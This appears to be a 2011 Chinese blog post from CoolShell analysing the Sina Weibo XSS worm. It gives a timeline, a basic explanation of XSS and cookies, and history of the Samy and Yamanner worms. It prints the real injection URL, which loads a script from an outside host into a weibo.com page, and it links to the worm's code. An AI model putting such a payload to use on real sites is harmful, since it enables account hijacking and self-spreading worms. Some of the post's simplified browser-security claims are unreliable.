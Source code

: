 ```yaml
---
layout: post
title: 新浪微博的XSS攻击
date: 2011/6/28/ 15:10:18
updated: 2011/6/28/ 15:10:18
status: publish
published: true
type: post
---
```


今天晚上（2011年6月28日），新浪微博出现了一次比较大的XSS攻击事件。大量用户自动发送诸如：“郭美美事件的一些未注意到的细节”，“建党大业中穿帮的地方”，“让女人心动的100句诗歌”，“3D肉团团高清普通话版种子”，“这是传说中的神仙眷侣啊”，“惊爆!范冰冰艳照真流出了”等等微博和私信，并自动关注一位名为hellosamy的用户。


事件的经过线索如下：


* 20:14，开始有大量带V的认证用户中招转发蠕虫
* 20:30，2kt.cn中的病毒页面无法访问
* 20:32，新浪微博中hellosamy用户无法访问
* 21:02，新浪漏洞修补完毕


 


![新浪微博XSS事件](https://coolshell.cn/wp-content/uploads/2011/06/sina_xss01.png "新浪微博XSS事件")新浪微博XSS事件
 


在这里，想和大家介绍一下XSS攻击，XSS攻击又叫跨站脚本式攻击，你Google一下可以搜到很多很多的文章。我在这里就简单地说一下。



首先，我们都知道网上很多网站都可以“记住你的用户名和密码”或是“自动登录”，其实是在你的本地设置了一个cookie，这种方式可以让你免去每次都输入用户名和口令的痛苦，但是也带来很大的问题。试想，如果某用户在“自动登录”的状态下，如果你运行了一个程序，这个程序访问“自动登录”这个网站上一些链接、提交一些表单，那么，也就意味着这些程序不需要输入用户名和口令的手动交互就可以和服务器上的程序通话。这就是XSS攻击的最基本思路。


再说一点，不一定是“记住你的用户名和密码”或是“自动登录”的方法，因为HTTP是无状态的协议，所以，几乎所有的网站都会在你的浏览器上设置cookie来记录状态，以便在其多个网页切换中检查你的登录状态。而现在的浏览器的运行方式是多页面或多窗口运行，也就是说，你在同一个父进程下开的多个页面或窗口里都可以无偿和共享使用你登录状态的。


当然，你不必过于担心访问别的网站，在别的网站里的js代码会自动访问你的微博或是网银。因为浏览器的安全性让js只能访问自己所在网站的资源（你可以引入其它网站的js）。当然，这是浏览器对js做的检查，所以，浏览器并不一定会做这个检查，这就是为什么[IE6是史上最不安全的浏览器](https://coolshell.cn/articles/3921.html "中国仍是IE6的重灾区")，没有之一。只要你没有在用IE6，应该没有这些问题。


XSS攻击有两种方法，


* 一种就像SQL Injection或CMD Injection攻击一样，我把一段脚本注入到服务器上，用户访问方法服务器的某个URL，这个URL就会把远端的js注入进来，这个js有可能自动进行很多操作。比如这次事件中的帮你发微博，帮你发站内消息等。注入有很多方法，比如：提交表单，更改URL参数，上传图片，设置签名，等等。


* 另一类则是来来自外部的攻击，主要指的自己构造XSS 跨站漏洞网页或者寻找非目标机以外的有跨站漏洞的网页。如当我们要渗透一个站点，我们自己构造一个跨站网页放在自己的服务器上，然后通过结合其它技术，如 社会工程学等，欺骗目标服务器的管理员打开。这一类攻击的威胁相对较低，至少ajax 要发起跨站调用是非常困难的（你可能需要hack浏览器）。


这次新浪微博事件是第一种，其利用了微博广场页面 http://weibo.com/pub/star 的一个URL注入了js脚本，其通过http://163.fm/PxZHoxn短链接服务，将链接指向：


http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update


注意，上面URL链接中的其实就是<script src=//www.2kt.cn/images/t.js></script>。


攻击者并不一定是2kt.cn的人，因为.cn被国家严格管制（大家不知道coolshell.cn 的备案备了不知有多少次），所以，我个人觉得这个人不会愚蠢到用自己域名来做攻击服务器。


#### 其它


* 初步发现 Chrome 和 Safari 都没中招。IE、Firefox未能幸免。
* 史上最著名的XSS攻击是Yahoo Mail 的[Yamanner](http://en.wikipedia.org/wiki/Yamanner) 蠕虫是一个著名的XSS 攻击实例。早期Yahoo Mail 系统可以执行到信件内的javascript 代码。并且Yahoo Mail 系统使用了Ajax技术，这样病毒javascript 可以的向Yahoo Mail 系统发起ajax 请求，从而得到用户的地址簿，并发送攻击代码给他人。
* 为什么那个用户叫hellosamy，因为[samy](http://en.wikipedia.org/wiki/Samy_(XSS))是第一个XSS攻击性的蠕虫病毒，在MySpace上传播。
* 关于攻击的代码在这里：[06.28\_sina\_XSS.txt](https://coolshell.cn/wp-content/uploads/2011/06/06.28_sina_XSS.txt.zip) （编码风格还是很不错的）


（全文完）




**（转载本站文章请注明作者和出处 [酷 壳 – CoolShell](https://coolshell.cn/) ，请勿用于任何商业用途）**



### 相关文章

* [![国内微博和Twitter的最大不同](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/15.jpg)](https://coolshell.cn/articles/5247.html)[国内微博和Twitter的最大不同](https://coolshell.cn/articles/5247.html)
* [![微软用新浪来当反面教材](https://coolshell.cn/wp-content/uploads/2011/03/affc-image1-150x150.png)](https://coolshell.cn/articles/3872.html)[微软用新浪来当反面教材](https://coolshell.cn/articles/3872.html)
* [![程序员疫苗：代码注入](https://coolshell.cn/wp-content/uploads/2012/12/200906020837401710-150x150.jpg)](https://coolshell.cn/articles/8711.html)[程序员疫苗：代码注入](https://coolshell.cn/articles/8711.html)
* [![一次Ajax查错的经历](https://coolshell.cn/wp-content/uploads/2012/08/ajax_error-150x150.jpg)](https://coolshell.cn/articles/8170.html)[一次Ajax查错的经历](https://coolshell.cn/articles/8170.html)
* [![做个环保主义的程序员](https://coolshell.cn/wp-content/uploads/2012/04/Green-Computing-150x150.jpg)](https://coolshell.cn/articles/7186.html)[做个环保主义的程序员](https://coolshell.cn/articles/7186.html)
* [![10大经典错误](https://coolshell.cn/wp-content/plugins/wordpress-23-related-posts-plugin/static/thumbs/5.jpg)](https://coolshell.cn/articles/5107.html)[10大经典错误](https://coolshell.cn/articles/5107.html)
The post [新浪微博的XSS攻击](https://coolshell.cn/articles/4914.html) first appeared on [酷 壳 - CoolShell](https://coolshell.cn).